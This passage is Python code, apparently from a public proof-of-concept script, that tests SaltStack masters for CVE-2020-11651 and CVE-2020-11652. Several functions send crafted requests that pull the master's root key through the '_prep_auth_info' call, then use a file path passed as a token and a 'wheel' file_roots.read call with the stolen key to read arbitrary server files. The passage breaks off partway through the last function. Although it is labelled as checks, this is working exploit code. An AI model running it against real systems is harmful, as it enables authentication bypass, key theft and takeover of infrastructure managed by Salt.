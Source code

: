     def check_CVE_2020_11651(channel):
      print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
      sys.stdout.flush()

      try:
        rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
      except:
        print('ERROR')
        return None
      else:
        pass
      finally:
        if rets:
          print('YES')
          root_key = rets[2]['root']
          return root_key

      print('NO')
      return None

    def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
      print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
      sys.stdout.flush()

      # try read file
      msg = {
        'cmd': 'get_token',
        'arg': [],
        'token': top_secret_file_path,
      }

      try:
        rets = channel.send(msg, timeout=3)
      except salt.exceptions.SaltReqTimeoutError:
        print("YES")
      except:
        print("ERROR")
        raise
      else:
        if debug:
          print()
          print(rets)
        print("NO")

    def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
      print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
      sys.stdout.flush()

      # try read file
      msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': top_secret_file_path,
        'saltenv': 'base',
      }
